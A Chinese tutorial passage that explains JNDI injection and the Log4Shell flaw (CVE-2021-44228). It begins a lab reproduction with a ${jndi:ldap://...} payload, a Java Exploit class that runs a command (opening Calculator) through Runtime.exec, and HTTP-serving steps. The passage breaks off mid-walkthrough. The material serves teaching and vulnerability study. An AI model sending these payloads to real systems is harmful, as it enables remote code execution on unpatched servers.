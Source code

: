 - 存根与骨架
    - 存根（Stub）：与 Client 端相连，是远程对象的代理
    - 骨架（Skeleton）：与 Server 端相连，代理调用方法
- 远程引用层（Remote Reference Layer）：用来寻找通信对象以及通过 RMI Registry 提供命名服务
- 传输层（Transport Layer）：在 Server 与 Client 端建立 socket 通信

Server 端开启 RMI 服务时先创建远程对象，然后向 registry 注册远程对象，等待调用。Client 端进行 RMI 时访问 registry 得到远程对象的存根，再通过存根远程调用方法，存根序列化调用后与骨架通信使骨架代理调用方法并将结果返回给存根再反序列化交给客户端。

### LDAP 简介
LDAP（Lightweight Directory Access Protocol，轻型目录访问协议）是一个开放的、中立的、工业标准的应用协议，通过 TCP/IP 协议提供访问控制和维护分布式信息的目录服务，可以通过 LDAP 协议来访问网络资源，可以看成一个树形的数据库。

### JNDI 注入原理
如前面所说，JNDI 封装了一些服务，并且通过 lookup 来访问服务，例如通过 lookup("rmi://ip:port/...") 的形式访问 ip:port 提供的 RMI 服务，通过 lookup("ldap://ip:port/...") 的形式访问 LDAP 服务。

JNDI 的目的是通过名称/目录获取对象，而远程读取的一般是编译后的 .class 文件所以在 lookup 时会进行类加载，JVM 将其加载为 Java 类。而当 ClassLoader 加载 .class 文件的时候会调用类的 clinit 方法，执行类的静态代码。因此如果可以控制 JNDI lookup 的 URL，便可以任意加载远程类，执行恶意代码，这也就是 JNDI 注入原理。

但是 JNDI 注入受到 JDK 配置限制，如果 com.sun.jndi.xxx.object.trustURLCodebase 这一配置是 false 时则不会信任 URL 从而无法进行 JNDI 注入。在 JDK 11.0.1、8u191、7u201、6u211 等版本中这一配置默认是 true，而从 6u132、7u122、8u113 开始，这一配置默认为 false（因此后面使用高版本 JDK 复现时要手动开启这一配置）

### CVE-2021-44228 漏洞原理
CVE-2021-44228 即是通过 log4j 来实现了 JNDI 注入。log4j 可以通过 \${} 语法来获取动态内容并输出到日志中，其中对于每个 \${} 部分使用 lookup 方法来解决变量，其中也提供了 JndiLookup，也就是说可以使用 JNDI 来读取内容，形如 \${jndi:...}。这时就存在 JNDI 注入。

而大部分使用 log4j 来记录日志的网络应用都会记录用户的输入，比如搜索网站会记录用户搜索的内容，这时如果用户输入的是 \${jndi:...}（比如 ${jndi:ldap://ip:port/...}） 就会进行 JndiLookup，实现 JNDI 注入，这也就是 CVE-2021-44228 这个漏洞的原理。

## log4j 漏洞复现
下面分别通过调用 LDAP 和 RMI 服务的方式来复现这一 JNDI 注入漏洞。
### LDAP 实现
进行这一漏洞的复现需要以下两个部分：

- 一个 LDAP 服务，用来重定向提供攻击类
    - 需要一个网络服务来为其提供攻击类
- 一个包含存在漏洞的 log4j 组件的 Java 应用

#### 攻击类
首先是用于发起攻击的 Exploit 类，代码如下：
```Java
public class Exploit {
    static {
        try {
            String[] cmds = {"open", "/System/Applications/Calculator.app"};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
使用 javac Exploit.java 将这个类编译为 .class 类文件，然后使用 python -m http.server 8888 为当前目录在 8888 端口开启一个 HTTP 服务。可以通过 curl -I 127.0.0.1:8888/Exploit.class 来检查是否正常部署，能否获取到当前 Exploit 类文件。
